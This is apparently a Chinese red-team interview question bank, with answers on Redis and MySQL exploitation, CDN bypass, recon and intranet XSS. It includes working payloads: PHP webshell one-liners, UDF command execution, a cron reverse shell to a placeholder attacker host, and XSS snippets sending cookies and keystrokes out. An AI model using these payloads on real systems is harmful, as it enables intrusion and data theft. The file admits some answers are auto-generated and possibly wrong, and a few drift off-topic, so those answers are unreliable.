- [kerberos认证黄金、白银票据制作原理，以及需要哪个值  ](#kerberos认证黄金白银票据制作原理以及需要哪个值--)
- [window redis 需要有哪些利用手段，除了写文件和启动项  ](#window-redis-需要有哪些利用手段除了写文件和启动项--)
- [linux redis 写有哪些利用方式  ](#linux-redis-写有哪些利用方式--)
- [windows后门包括哪些方式  ](#windows后门包括哪些方式--)
- [cs hashdump和logonpasswd 分别从哪里读取哈希和密码  ](#cs-hashdump和logonpasswd-分别从哪里读取哈希和密码--)
- [如何收集rdp连接记录，如果有杀软怎么办  ](#如何收集rdp连接记录如果有杀软怎么办--)
- [xss 设置http-only如何绕过  ](#xss-设置http-only如何绕过--)
- [xss攻击手段有哪些  ](#xss攻击手段有哪些--)
- [遇到全是杀软的工作组怎么办  ](#遇到全是杀软的工作组怎么办--)
- [使用什么工具内网横向  ](#使用什么工具内网横向--)
- [fscan扫机器崩了怎么办  ](#fscan扫机器崩了怎么办--)
- [apache iis 解析漏洞是什么  ](#apache-iis-解析漏洞是什么--)
- [php文件上传绕过方式（黑、白名单、解析漏洞）  ](#php文件上传绕过方式黑白名单解析漏洞--)
- [工作组横向需要用户什么权限  ](#工作组横向需要用户什么权限--)
- [如何查找域控（尽可能多的方式）  ](#如何查找域控尽可能多的方式--)
- [如何从cdn 找真实ip  ](#如何从cdn-找真实ip--)
- [如何判断邮箱类型  ](#如何判断邮箱类型--)
- [如何确定你拿到的就是真实ip  ](#如何确定你拿到的就是真实ip--)
- [机器不出网如何上线到cs（不出网的机器是拿到webshell的机器）  ](#机器不出网如何上线到cs不出网的机器是拿到webshell的机器--)
- [走代理用哪些工具，遇到杀软怎么办  ](#走代理用哪些工具遇到杀软怎么办--)
- [如何免杀  ](#如何免杀--)
- [sql注入bypass有哪些（尽可能多说）  ](#sql注入bypass有哪些尽可能多说--)
- [平常红队hw信息收集方式有哪些  ](#平常红队hw信息收集方式有哪些--)
- [whois 收集的信息包括哪些  ](#whois-收集的信息包括哪些--)
- [给一个登录框能想到哪些利用方式  ](#给一个登录框能想到哪些利用方式--)
- [平常开发经常用python 和php做什么  ](#平常开发经常用python-和php做什么--)
- [代码审计的思路是什么  ](#代码审计的思路是什么--)
- [mysql getshell的前提是什么  ](#mysql-getshell的前提是什么--)
- [其中需要mysql.ini 配置参数应该是怎样  ](#其中需要mysqlini-配置参数应该是怎样--)
- [redis ssf 如何攻击内网，可以用到哪些协议  ](#redis-ssf-如何攻击内网可以用到哪些协议--)
- [说一下udf提权  ](#说一下udf提权--)
- [xss 如何打内网xss打到cookie](#xss-如何打内网xss打到cookie)
- [后台不允许访问怎么办](#后台不允许访问怎么办)
- [端口不允许探测怎么办](#端口不允许探测怎么办)
- [shellcode加载有什么现象](#shellcode加载有什么现象)
- [内网扫描如何规避蜜罐](#内网扫描如何规避蜜罐)
- [fastjson 新老版本如何利用](#fastjson-新老版本如何利用)
- [dns隧道原理](#dns隧道原理)
- [搭建dns隧道需要怎么做。](#搭建dns隧道需要怎么做)
- [xff在osi第几层](#xff在osi第几层)
- [app抓不到包是什么原因以及如何绕过](#app抓不到包是什么原因以及如何绕过)
- [shiro 550 721 什么区别](#shiro-550-721-什么区别)
- [135端口如何利用](#135端口如何利用)
- [wmiexec常用端口。](#wmiexec常用端口)
- [
  你在hvv/攻防演练中取得了哪些成绩？](#你在hvv攻防演练中取得了哪些成绩)
- [
  上一个工作的主要内容？](#上一个工作的主要内容)
- [有没有遇到过有意思的逻辑漏洞？](#有没有遇到过有意思的逻辑漏洞)
- [
  有没有自己开发过武器/工具？](#有没有自己开发过武器工具)
- [
  有cve/cnvd吗？](#有cvecnvd吗)
- \[

  有src排名吗？]\(#有src排名吗)
- [
  有钓鱼经历吗？具体说说](#有钓鱼经历吗具体说说)
- [
  xss除了获取cookie还能干什么？](#xss除了获取cookie还能干什么)
- [
  Ssrf的原理与危害？](#Ssrf的原理与危害)
- \[

  Ssrf和csrf有什么区别？]\(#Ssrf和csrf有什么区别)
- [
  如何寻找注入点？](#如何寻找注入点)
- [
  有用过sql注入传马吗？](#有用过sql注入传马吗)
- [
  –os-shell的条件？](#os-shell的条件)
- [
  Fastjson的原理？](#Fastjson的原理)
- [利用fastjson注入内存马原理？](#利用fastjson注入内存马原理)
- [
  内存马免杀有做过吗？具体说说](#内存马免杀有做过吗具体说说)
- [Shiro550和shiro721的区别？](#Shiro550和shiro721的区别)
- [
  你能从代码层理解shiro的原理吗？](#你能从代码层理解shiro的原理吗)
- [
  你拿到key了但是没有攻击链，此时应该怎么办？](#你拿到key了但是没有攻击链此时应该怎么办)
- [
  Log4j2高版本jdk不支持外部加载jndi，应该怎么利用？](#Log4j2高版本jdk不支持外部加载jndi应该怎么利用)
- [
  不借助dnslog有办法检测log4j2是否出网吗](#不借助dnslog有办法检测log4j2是否出网吗)
- [你是如何验证struts2是否存在的](#你是如何验证struts2是否存在的)
- [
  有做过代码审计吗？有0day吗？](#有做过代码审计吗有0day吗)
- [
  Redis未授权有了解吗？](#Redis未授权有了解吗)
- [
  Springboot 有哪些漏洞？](#Springboot-有哪些漏洞)
- [
  冰蝎和菜刀等webshell工具有什么区别？](#冰蝎和菜刀等webshell工具有什么区别)
- [
  Xxe原理与攻击手法？](#Xxe原理与攻击手法)
- [
  如何判断当前主机是否在域环境内？](#如何判断当前主机是否在域环境内)
- [linux和windows怎么判断？](#linux和windows怎么判断)
- [
  Cs和msf的优缺点？](#Cs和msf的优缺点)
- [
  如何进行cs特征隐藏？](#如何进行cs特征隐藏)
- [
  免杀有几种途径？](#免杀有几种途径)
- [
  谈谈Windows系统与Linux系统提权的思路](#谈谈Windows系统与Linux系统提权的思路)
- [你是怎么搭建隧道的](#你是怎么搭建隧道的)
- [
  权限维持的思路？](#权限维持的思路)
- [
  简单说一下mssql提权](#简单说一下mssql提权)
- [
  制作白银票据需要哪些条件？](#制作白银票据需要哪些条件)
- [域名、SID、密码HASH、伪造用户名、要访问的服务](#域名SID密码HASH伪造用户名要访问的服务)
- [你平时进行渗透测试的流程是什么样的](#你平时进行渗透测试的流程是什么样的)
- [如何绕过CDN查找真实IP](#如何绕过CDN查找真实IP)
- [过滤逗号的SQL注入如何绕过](#过滤逗号的SQL注入如何绕过)
- [过滤limit后的逗号如何绕过](#过滤limit后的逗号如何绕过)
- [SSRF可以怎么利用](#SSRF可以怎么利用)
- [利用ThinkPHP的RCE时，如果发现有disablefunction怎么利用](#利用ThinkPHP的RCE时如果发现有disablefunction怎么利用)
- [绕过disablefunction的方法](#绕过disablefunction的方法)
- [平时怎么测试SQL注入漏洞的，除了sqlmap还用过哪些工具](#平时怎么测试SQL注入漏洞的除了sqlmap还用过哪些工具)
- [JWT有哪些漏洞和利用方法](#JWT有哪些漏洞和利用方法)
- [你知道有哪些常见的未授权漏洞](#你知道有哪些常见的未授权漏洞)
- [Spring Actuator未授权访问漏洞有哪些利用方式](#Spring-Actuator未授权访问漏洞有哪些利用方式)
- [你平时使用Burp多还是Yakit多，选择原因是什么](#你平时使用Burp多还是Yakit多选择原因是什么)
- [Windows环境下怎么利用Redis未授权漏洞](#Windows环境下怎么利用Redis未授权漏洞)
- [文件上传漏洞怎么绕过WAF](#文件上传漏洞怎么绕过WAF)
- [有没有做过APP渗透，其防御中常见有哪些环境检测点，怎么绕过](#有没有做过APP渗透其防御中常见有哪些环境检测点怎么绕过)
- [微信小程序怎么做反编译和动态调试](#微信小程序怎么做反编译和动态调试)
- [测试越权的场景和思路有哪些](#测试越权的场景和思路有哪些)
- [MySQL下如何执行系统命令](#MySQL下如何执行系统命令)
- [Oracle下如何执行系统命令](#Oracle下如何执行系统命令)
- [对于仅仅只有一个登录页面的网站，你的渗透思路是什么](#对于仅仅只有一个登录页面的网站你的渗透思路是什么)
- [你遇到过哪些有关云的测试案例](#你遇到过哪些有关云的测试案例)
- [遇到XSS，你有哪些利用方法](#遇到XSS你有哪些利用方法)
- [怎么绕过同源策略](#怎么绕过同源策略)
- [你平时参加攻防演练，给你一个目标，你的流程是什么样子的](#你平时参加攻防演练给你一个目标你的流程是什么样子的)
- [做资产收集时，如何确保收集到的域名足够全面](#做资产收集时如何确保收集到的域名足够全面)
- [Linux除了内核提权，还有什么常用的提权方式](#Linux除了内核提权还有什么常用的提权方式)
- [平时用过哪些C2，除了Cobalt Strike还有其他的吗](#平时用过哪些C2除了Cobalt-Strike还有其他的吗)
- [如何隐藏自己的Cobalt Strike，避免被公网扫描发现MSSQL执行命令的几种方式](#如何隐藏自己的Cobalt-Strike避免被公网扫描发现MSSQL执行命令的几种方式)
- [正反向代理的区别](#正反向代理的区别)
- [常用哪些方式和工具做流量代理，为什么喜欢用这种方式和工具](#常用哪些方式和工具做流量代理为什么喜欢用这种方式和工具)
- [Windows下你常用哪些权限维持方法](#Windows下你常用哪些权限维持方法)
- [怎么做Bypass UAC的](#怎么做Bypass-UAC的)
- [Windows自启动的原理](#Windows自启动的原理)
- [你平常钓鱼通常使用什么思路来找到对方的人员，以及用什么话术让对方打开木马](#你平常钓鱼通常使用什么思路来找到对方的人员以及用什么话术让对方打开木马)
- [邮件钓鱼时怎么绕过对方的邮件网关，如何配置了拦截加密压缩包呢](#邮件钓鱼时怎么绕过对方的邮件网关如何配置了拦截加密压缩包呢)
- [讲讲你知道的攻防演练中的opsec](#讲讲你知道的攻防演练中的opsec)
- [你知道的抓取凭证的方法，除了内存中还有哪里可以获取](#你知道的抓取凭证的方法除了内存中还有哪里可以获取)
- [平时用什么工具获取浏览器或常见运维工具的密码](#平时用什么工具获取浏览器或常见运维工具的密码)
- [有没有做过针对MacOS的钓鱼，思路是什么](#有没有做过针对MacOS的钓鱼思路是什么)
- [如何隐藏用来维权的计划任务](#如何隐藏用来维权的计划任务)
- [Webshell下执行命令，提示 error 5，这种会是什么原因，怎么解决](#Webshell下执行命令提示-error-5这种会是什么原因怎么解决)
- [怎么获取已保存的RDP凭据，大致原理是什么](#怎么获取已保存的RDP凭据大致原理是什么)
- [除了HTTP(S)和TCP，你还知道哪些C2通信的常见协议，它们特点是什么](#除了HTTPS和TCP你还知道哪些C2通信的常见协议它们特点是什么)
- [有没有打过vCenter，如果上面的机器都锁屏了且没有密码，怎么利用](#有没有打过vCenter如果上面的机器都锁屏了且没有密码怎么利用)
- [钓鱼时有没有预防对方出网受限的措施，如何判断对方是哪种协议可出网](#钓鱼时有没有预防对方出网受限的措施如何判断对方是哪种协议可出网)
- [如果发现已经控制的主机上有zabbix agent，怎么打zabbix server](#如果发现已经控制的主机上有zabbix-agent怎么打zabbix-server)
- [域内收集信息的常用命令](#域内收集信息的常用命令)
- [Kerberos认证大致流程和角色](#Kerberos认证大致流程和角色)
- [NTLM Relay原理](#NTLM-Relay原理)
- [黄金票据原理，在 Kerberos认证的哪个阶段？如何制作？用哪个用户的 hash 来制作？](#黄金票据原理在-Kerberos认证的哪个阶段如何制作用哪个用户的-hash-来制作)
- [进入内网后，你的整体流程和思路是什么样的](#进入内网后你的整体流程和思路是什么样的)
- [有哪些方法可以直接攻击域控](#有哪些方法可以直接攻击域控)
- [域内用户和工作组用户的差别](#域内用户和工作组用户的差别)
- [什么情况下叫在域内](#什么情况下叫在域内)
- [内网 PotitPetam 利用和原理](#内网-PotitPetam-利用和原理)
- [几种委派的原理和利用方式](#几种委派的原理和利用方式)
- [NoPAC漏洞的原理](#NoPAC漏洞的原理)
- [对一个机器账号有全部属性的写权限，怎么利用](#对一个机器账号有全部属性的写权限怎么利用)
- [如果默认的可以创建10个机器账号被修改为0了怎么绕过](#如果默认的可以创建10个机器账号被修改为0了怎么绕过)
- [Kerberosting原理](#Kerberosting原理)
- [利用Kerberosting的时候会重点关注哪些服务](#利用Kerberosting的时候会重点关注哪些服务)
- [AS-REPRoasting原理](#AS-REPRoasting原理)
- [有一台工作组的机器，可以访问域控，这时候怎么利用AS-REPRoasting](#有一台工作组的机器可以访问域控这时候怎么利用AS-REPRoasting)
- [几种土豆提权的原理](#几种土豆提权的原理)
- [黄金票据和白银票据的区别](#黄金票据和白银票据的区别)
- [ADCS漏洞了解过吗](#ADCS漏洞了解过吗)
- [如果只有hash，怎么登录RDP](#如果只有hash怎么登录RDP)
- [Zerologon漏洞的原理](#Zerologon漏洞的原理)
- [说一下域间信任](#说一下域间信任)
- [可以从什么方向去判断目标存在域环境](#可以从什么方向去判断目标存在域环境)
- [挂了socks代理，但是ping不通内网的机器，为什么](#挂了socks代理但是ping不通内网的机器为什么)
- [Java反射做了什么事情](#Java反射做了什么事情)
- [Java反射可以修改Final字段吗](#Java反射可以修改Final字段吗)
- [传统的反射方法加入黑名单怎么绕](#传统的反射方法加入黑名单怎么绕)
- [Java中可以执行反弹shell的命令吗](#Java中可以执行反弹shell的命令吗)
- [假设Runtime.exec加入黑名单还有什么方式执行命令](#假设Runtimeexec加入黑名单还有什么方式执行命令)
- [RMI和LDAP类型的JNDI注入分别在哪个版本限制](#RMI和LDAP类型的JNDI注入分别在哪个版本限制)
- [RMI和LDAP的限制版本分别可以怎样绕过](#RMI和LDAP的限制版本分别可以怎样绕过)
- [谈谈TemplatesImpl这个类](#谈谈TemplatesImpl这个类)
- [了解BCEL ClassLoader吗](#了解BCEL-ClassLoader吗)
- [谈谈7u21反序列化](#谈谈7u21反序列化)
- [谈谈8u20反序列化](#谈谈8u20反序列化)
- [了解缩小反序列化Payload的手段吗](#了解缩小反序列化Payload的手段吗)
- [Shiro反序列化怎么检测key](#Shiro反序列化怎么检测key)
- [Shiro 721怎么利用](#Shiro-721怎么利用)
- [最新版Shiro还存在反序列化漏洞吗](#最新版Shiro还存在反序列化漏洞吗)
- [Shiro反序列化Gadget选择有什么坑吗](#Shiro反序列化Gadget选择有什么坑吗)
- [Shiro注入Tomcat内存马有什么坑吗](#Shiro注入Tomcat内存马有什么坑吗)
- [有什么办法让Shiro漏洞只能被你一人发现](#有什么办法让Shiro漏洞只能被你一人发现)
- [Shiro的权限绕过问题了解吗](#Shiro的权限绕过问题了解吗)
- [Shiro的Payload过长怎么解决](#Shiro的Payload过长怎么解决)
- [谈谈Log4j2漏洞](#谈谈Log4j2漏洞)
- [知道Log4j2 2.15.0 RC1修复的绕过吗](#知道Log4j2-2150-RC1修复的绕过吗)
- [Log4j2的两个DOS CVE了解吗](#Log4j2的两个DOS-CVE了解吗)
- [Log4j2 2.15.0正式版的绕过了解吗](#Log4j2-2150正式版的绕过了解吗)
- [Log4j2绕WAF的手段有哪些](#Log4j2绕WAF的手段有哪些)
- [Log4j2除了RCE还有什么利用姿势](#Log4j2除了RCE还有什么利用姿势)
- [Fastjson漏洞的原理](#Fastjson漏洞的原理)
- [Fastjson漏洞不出网怎么利用](#Fastjson漏洞不出网怎么利用)
- [利用Fastjson漏洞时，怎么判断版本](#利用Fastjson漏洞时怎么判断版本)
- [各个中间件的回显思路](#各个中间件的回显思路)
- [内存马有几种不同类别，分别是什么](#内存马有几种不同类别分别是什么)
- [平时怎么做的免杀](#平时怎么做的免杀)
- [常见的反沙箱手段有哪些](#常见的反沙箱手段有哪些)
- [常见的反虚拟机手段有哪些](#常见的反虚拟机手段有哪些)
- [你的Shellcode Loader中会使用哪些技术点](#你的Shellcode-Loader中会使用哪些技术点)
- [怎么规避360 QVM](#怎么规避360-QVM)
- [权限维持怎么绕过常见的杀软](#权限维持怎么绕过常见的杀软)
- [有没有研究过Cobalt Strike的Kit](#有没有研究过Cobalt-Strike的Kit)
- [进程注入的步骤](#进程注入的步骤)
- [有没有挖过DLL劫持，怎么挖的](#有没有挖过DLL劫持怎么挖的)
- [怎么解决DLL劫持利用的死锁问题](#怎么解决DLL劫持利用的死锁问题)
- [是否了解syscall的原理和分类](#是否了解syscall的原理和分类)
- [有没有做过webshell的免杀，具体会怎么做](#有没有做过webshell的免杀具体会怎么做)
- [对于工具的免杀，有源码和无源码的情况下你分别会怎么做](#对于工具的免杀有源码和无源码的情况下你分别会怎么做)
- [如何绕过新下载文件打开时的告警（smartscreen机制）](#如何绕过新下载文件打开时的告警smartscreen机制)
- [是否了解杀软的各种查杀机制特性，以及如何绕过这些机制](#是否了解杀软的各种查杀机制特性以及如何绕过这些机制)
- [是否知道哪些可以规避杀软的抓取哈希的方法](#是否知道哪些可以规避杀软的抓取哈希的方法)
- [Sleepmask原理是什么，其本身是否有特征](#Sleepmask原理是什么其本身是否有特征)
- [有没有了解过BYOVD](#有没有了解过BYOVD)
- [EDR致盲的原理是什么](#EDR致盲的原理是什么)
- [360核晶的检测拦截内容包括哪些](#360核晶的检测拦截内容包括哪些)
- [你测试免杀的时候开不开网络，开不开云传，为什么](#你测试免杀的时候开不开网络开不开云传为什么)
- [你平时使用哪种语言写木马，选择这种语言的原因是什么](#你平时使用哪种语言写木马选择这种语言的原因是什么)
- [为什么木马自己cmd运行不被杀，但是钓鱼时就会被杀](#为什么木马自己cmd运行不被杀但是钓鱼时就会被杀)
- [知不知道天擎的检测点，怎么绕过](#知不知道天擎的检测点怎么绕过)
- [有没有对抗过卡巴斯基，有哪些检测点](#有没有对抗过卡巴斯基有哪些检测点)
- [怎么绕过AMSI](#怎么绕过AMSI)
- [BOF、execute-assembly的原理是什么，有什么区别](#BOFexecute-assembly的原理是什么有什么区别)
- [进程注入如何去做应急响应？](#进程注入如何去做应急响应)
- [&#x20;
  钓鱼成功的场景如何应急的？](#-钓鱼成功的场景如何应急的)
- [
  内存马在不重启的情况下如何进行根除或者止损？](#内存马在不重启的情况下如何进行根除或者止损)
- [
  java内存马不能被杀掉进程情况下会怎么做？](#java内存马不能被杀掉进程情况下会怎么做)
- [
  IP溯源到是一个云主机的IP你还会得到什么信息？](#IP溯源到是一个云主机的IP你还会得到什么信息)
- [
  sqlmap产生几千条告警的情况下怎么判断攻击成功的告警？](#sqlmap产生几千条告警的情况下怎么判断攻击成功的告警)
- [&#x20;
  如果正常业务也用shiro组件的话怎么判断shiro告警误报呢？](#-如果正常业务也用shiro组件的话怎么判断shiro告警误报呢)
- [
  webhsell管理工具的流量特征？菜刀、蚁剑这种 ](#webhsell管理工具的流量特征菜刀蚁剑这种-)
- [
  命令执行或者命令注入这种的payload长什么样？](#命令执行或者命令注入这种的payload长什么样)
- [
  fastjson反序列化攻击的漏洞特征是什么样的？](#fastjson反序列化攻击的漏洞特征是什么样的)
- [
  weblogic的攻击面有哪些？](#weblogic的攻击面有哪些)
- [
  给你一个IP在不反制的情况下如何判断是真正的攻击者还是攻击者控制的肉鸡呢？](#给你一个IP在不反制的情况下如何判断是真正的攻击者还是攻击者控制的肉鸡呢)
- [
  蜜罐抓到了手机号能获取什么信息？](#蜜罐抓到了手机号能获取什么信息)
- [
  蜜罐抓到了域名还能获取什么信息？](#蜜罐抓到了域名还能获取什么信息)
- [
  如果被上了webshell如何快速找到这个webshell？](#如果被上了webshell如何快速找到这个webshell)
- [
  内网有一台机器因为扫描出有漏洞被下线了，这时候下线的情况下怎么打补丁？](#内网有一台机器因为扫描出有漏洞被下线了这时候下线的情况下怎么打补丁)

> 内容均为网上爬取的，相当全了只能说，有一小部分的题目调了gpt的接口自动解答，答案不一定准，有一些问题的答案是爬的时候自动带的，所以答案也不一定准，主要看题目！！！

## ✓如何绕过CDN找到真实IP，请列举五种方法 (★★★)

> 常用的方法大体可以分为被动信息收集和主动探测两大类，具体有以下几种：
>
> **1. 被动信息收集（历史记录）：**
>
> \-   查询域名的历史解析记录（如 SecurityTrails、FOFA、Censys）
> \-   如果目标以前没有用 CDN，可能能直接看到真实 IP
>
> **2. 子域名枚举：**
> \-   枚举二级/三级域名（Amass、Subfinder 等）
> \-   有的子域名可能没有接 CDN，指向真实服务器
> **3. 同网段/C 段扫描：**
> \-   根据目标历史 IP、注册信息、AS 号等确定可能的网段
> \-   扫描这些 IP，看有没有目标站点服务（通过 Host 头判断）
> **4. MX/邮件服务器/旁站：**
> \-   查询 MX 记录或 FTP/SSH 等，看是否和 Web 共用 IP
> \-   有时能通过旁站或同服站点发现真实 IP
> **5. 主动探测/漏洞利用：**
> \-   SSRF / Log4j / DNSLog 等，让目标服务器主动访问我们控的服务器
> \-   日志中就能看到真实出口 IP

***

⚙**额外可提到：**

- 有时候 CDN 也挡不住 Ping、Traceroute、路由追踪等信息泄露（不太稳定，但可尝试）
- 如果面试官追问**具体工具**，就提：Amass、Subfinder、FOFA、Censys、ZoomEye、nmap、masscan、dnsdumpster 等

## ✓redis未授权访问如何利用，利用的前提条件是? (★★★)

### ✅**1. 利用前提条件**

- **目标 Redis 对外开放端口（默认 6379）**
- **没有设置密码（****`requirepass`****）或安全组/防火护未限制访问**
- **目标 Redis 服务可被直接访问（公网或内网打通）**
- 权限足够（比如 root 权限/可写文件目录）

***

### 🛠**2. 常见利用方式**

下面是面试时最常提及的**四大经典利用方式**：

#### **① 写 SSH 公钥到目标用户的**\*\*`~/.ssh/authorized_keys`\*\*

- 通过 redis 自带的`CONFIG SET dir`+`CONFIG SET dbfilename` 配置
- 写入恶意公钥，实现 SSH 登录
- **利用条件：**
  - Redis 进程对目标用户家目录有写权限
  - Redis 服务运行用户是目标用户，或可写其家目录

***

#### **② 写 WebShell**

- 修改 Redis 配置，把数据库 dump 文件写到 Web 目录（如`/var/www/html/shell.php`）
- 内容写成一句话木马等，重启或触发 save
- **利用条件：**
  - Redis 有权限写到 Web 根目录
  - Web 服务器支持解析相应后缀（如 php）

***

#### **③ 内网扫描 / 反弹 Shell**

- 如果 Redis 所在机器能连内网其他服务器，可用 Redis 反弹 shell 或做内网探测
- 比如写定时任务 crontab

***

#### **④ 提权 / 破坏**

- 覆盖系统关键文件（如`/etc/crontab`），定时执行恶意脚本
- 危害更大，但需要更高权限

## ✓mysql提权方式有哪些?利用条件是什么? (★)

***

### ✅ 1.`INTO OUTFILE` 写 WebShell

**原理：** &#x20;

利用 SQL 写文件到 Web 服务目录，写入一句话木马等恶意代码。

**示例语句：**

`SELECT "<?php @eval($_POST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';`

**利用条件：**

- 拥有`FILE` 权限
- 目标目录（如`/var/www/html/`）对`mysql` 运行用户可写
- Web 服务器支持解析该文件（如 PHP）

***

### ✅ 2. UDF（自定义函数）提权

**原理：**
上传恶意`.so`或`.dll` 插件到 MySQL 插件目录，通过 SQL 执行系统命令。

**步骤概述：**

1. 将编译好的 UDF 文件上传到`plugin_dir`
2. 注册函数：

`CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'libudf.so';`

1. 执行命令：

`SELECT sys_exec('id');`

**利用条件：**

- 有`root`或`SUPER` 权限
- 有`CREATE FUNCTION` 权限
- 能确定并写入插件目录（`plugin_dir`）

***

### ✅ 3. 写入计划任务（Cron）

**原理：**
使用`INTO OUTFILE`写一个反弹 Shell 的计划任务到`/etc/cron.d/`。

**示例：**

sql

复制编辑

`SELECT "* * * * * root bash -i >& /dev/tcp/attacker-ip/port 0>&1" INTO OUTFILE "/etc/cron.d/mysql_shell";`

**利用条件：**

- 有`FILE` 权限
- `/etc/cron.d/`可被`mysql` 用户写入（通常需 root 启动）

***

### ✅ 4. 日志注入 WebShell

**原理：** &#x20;

开启日志功能，设置日志文件到 Web 目录，然后执行一句话木马 SQL，写入日志。

**步骤：**

`SET GLOBAL general_log = 1; SET GLOBAL general_log_file = '/var/www/html/shell.php'; SELECT "<?php @eval($_POST['cmd']); ?>";`

**利用条件：**

- 有`SUPER` 权限
- 能写入日志文件到 Web 根目录
- Web 服务解析写入的文件

***

### ✅ 5. 利用触发器执行命令（极少见）

- 早期版本中配合特定漏洞可通过触发器结合 UDF 实现命令执行，但现代版本大多不支持。

***

> MySQL 提权常用方式有：
>
> 1\.  使用`INTO OUTFILE` 写 WebShell
> 2\.  利用 UDF 自定义函数执行系统命令
> 3\.  写入计划任务（cron）反弹 shell
> 4\.  日志注入写 shell 到 Web 目录
> 利用前提包括：拥有高权限账户（如`FILE`、`SUPER`）、可写关键路径、知道插件目录等。

## ✓windows+mysql，存在sql注入，但是机器无外网权限，可以利用吗? (★)

### ✅ 答案：**可以利用！具体方式如下：**

***

### ✅ 1.**利用 INTO OUTFILE 写 WebShell**

- **原理：** &#x20;

  如果这是个 Web 系统，可以通过注入写一句话木马到 Web 目录。
- **注入语句示例：**

`UNION SELECT "<?php @eval($_POST['cmd']); ?>"  INTO OUTFILE 'C:\xampp\htdocs\shell.php'`

- **利用条件：**
  - 注入点可执行`SELECT` 等语句
  - 拥有`FILE` 权限
  - 知道 Web 路径（如`C:\inetpub\wwwroot`）
  - Web 服务开启（即使无外网，也可通过反弹内网）

***

### ✅ 2.**UDF 提权（本地命令执行）**

- **原理：** &#x20;

  注入点可以通过 SQL 注册一个本地的自定义函数（UDF），执行 Windows 系统命令。
- **常规利用步骤：**
  - 通过注入写 DLL 到插件目录（如`C:\Program Files\MySQL\MySQL Server X.X\lib\plugin`)
  - 创建函数：`CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'udf.dll';`
  - 调用函数：`SELECT sys_exec('net user hacker pass123 /add');`
- **利用条件：**
  - `FILE`+`CREATE FUNCTION` 权限
  - 知道`plugin_dir` 路径
  - 有办法写入 DLL 文件（可能需要辅助漏洞）

***

### ✅ 3.**写计划任务执行本地命令**

- **方法：**

  sql

  复制编辑

  `SELECT 'schtasks /create /tn backdoor /tr "cmd /c whoami > C:\result.txt" /sc minute /mo 1' INTO OUTFILE 'C:\Windows\Tasks\task.bat';`
- 然后诱导管理员执行（例如配合社会工程、错误提示等）
- **前提：**
  - 注入点能执行`INTO OUTFILE`
  - 可写入`C:\Windows\Tasks`

***

### ✅ 4.**写 bat 脚本，诱导执行**

- 注入写`bat`或`vbs` 文件到桌面、启动目录、下载目录等，诱导管理员双击或重启时执行。

***

### ✅ 5.**横向移动或配合 SSRF / RCE**

- 虽然当前机器无外网，但可能存在：
  - 内网能访问其他服务（数据库、Web）
  - 有 SSRF、XXE 可反向利用

***

### 🔒 6.**无法外连如何回传结果？**

- 可通过注入实现“盲注命令执行”方式，例如写命令执行结果到某个 Web 页面，然后你通过浏览器访问该页面查看结果。

***

> 是的，即使目标机器无法连接外网，依然可以利用：
> \-   利用 SQL 注入 +`INTO OUTFILE` 写 WebShell（本地持久化控制）
> \-   注册 UDF 实现系统命令执行（前提有`CREATE FUNCTION` 权限）
> \-   写计划任务或 bat 脚本，实现提权或持久化

## ✓常用的信息收集手段有哪些，除去`路径扫描`，`子域名爆破`等常见手段，有什么猥琐的方法收集企业信息? (★★)

> 子域名收集方法分为三大类：**被动收集、主动探测、旁站关联**，我一般会结合使用，确保尽可能全面发现资产。

***

### ① 被动收集（公开情报源，无请求行为）

- **使用工具/API** 查询已有数据
- 常用平台：
  - `crt.sh`（证书透明日志）
  - `FOFA`/`Hunter`/`Shodan`（资产引擎）
  - `SecurityTrails`
  - `VirusTotal`
  - `DNSDumpster`
  - [web.archive.org](http://web.archive.org "web.archive.org")
- 常用工具：
  - `Subfinder`（综合被动源，常用 ✅）
  - `Amass`（被动+主动都支持）
  - `OneForAll`
  - `theHarvester`

***

### ② 主动探测（发起 DNS 请求或字典爆破）

- **使用字典+DNS解析器扫描未被公开的子域**
- 方法：
  - DNS字典爆破：`dnsx`、`massdns`
  - 基于 CDN 旁注、CNAME 查询
  - 基于响应行为筛选真实子域（如`httpx` 探测）
- 搭配工具：
  - `Amass active`
  - `Massdns + wordlist`
  - `dnsx + httpx`

***

### ③ 旁站/相关域名扩展（公司/组织纬度）

- 查询同备案信息：
  - ICP备案查询、FOFA
- 查询相关域名下的所有子域：
  - 组织名反查、SSL证书主体名反查
- GitHub / GitLab / 微信小程序包 / JS文件 等泄露的信息提取域名

# ✓`SRC挖掘`与`渗透测试`的区别是什么，针对这两个不同的目标，实施过程中会有什么区别 (★★)

开放式回答

# ✓存储xss在纯内网的环境中，可以怎么利用？(★★)

***

***

### 1️⃣ 劫持 Cookie / Token

- 注入脚本读取 Cookie、Token、LocalStorage 等敏感信息：

js

复制编辑

`fetch("http://attacker-ip:8080/log?" + document.cookie)`

- 如果不能外联，可以写到某个内网日志接口里（见方式 5）

***

### 2️⃣ 自动化操作（CSRF联动 / API劫持）

- 发起受害者权限下的操作请求（如创建账号、上传 WebShell）：

js

复制编辑

`fetch("/admin/addUser", {   method: "POST",   body: JSON.stringify({username:"hacker", password:"123456", role:"admin"}),   credentials: "include" })`

***

### 3️⃣ 打开内网页面探测系统（内网扫描器）

`let targets = ["http://192.168.1.1", "http://10.0.0.1:8080", "http://intranet.company.local"]; targets.forEach(url => {   fetch(url).then(res => {     fetch("http://attacker-ip:8080/log?url=" + encodeURIComponent(url) + "&status=" + res.status);   }); });`

> ✅ 探测哪些内网系统是“能被当前受害者访问的”

***

### 4️⃣ 恶意 iframe / keylogger

- 诱导操作、钓鱼登录框、记录键盘输入：

`document.onkeypress = function(e) {   fetch("http://attacker-ip:8080/log?key=" + e.key); };`

***

### 5️⃣ 内网无外联时：利用“打点回显”接口或写入日志文件

> ✅**技巧：XSS 无法外传信息，但可以向内网服务器打日志，把信息写入文件**

- 利用系统自带的日志功能、搜索功能、评论功能，将敏感信息写入：

`fetch("/log", {   method: "POST",   body: document.cookie });`

- 后续入侵者登陆系统后台查看日志，手动收集信息。

***

### 6️⃣ 反弹 shell（结合 RCE 漏洞）

- 如果注入点能调用本地命令（配合 UAF、钓鱼页面等）：
  - 利用 XSS 引导管理员访问 RCE 页面
  - 或触发 CSRF+命令注入，反弹内网 shell 到攻击者机器

***

🧩 补充亮点思路（加分项）：

- 可以利用 iframe + postMessage 与另一个内网服务交互
- 可以诱导管理员在后台查看 XSS 页面，提升权限或实现持久化
- 可构建类似“内网 C2 通道” —— 利用反向通道进行通信（JS 定时向内网资源发请求）

***

> 存储型 XSS 在纯内网依然可利用。主要方式包括：
>
> 1\.  劫持 Cookie 或 Token
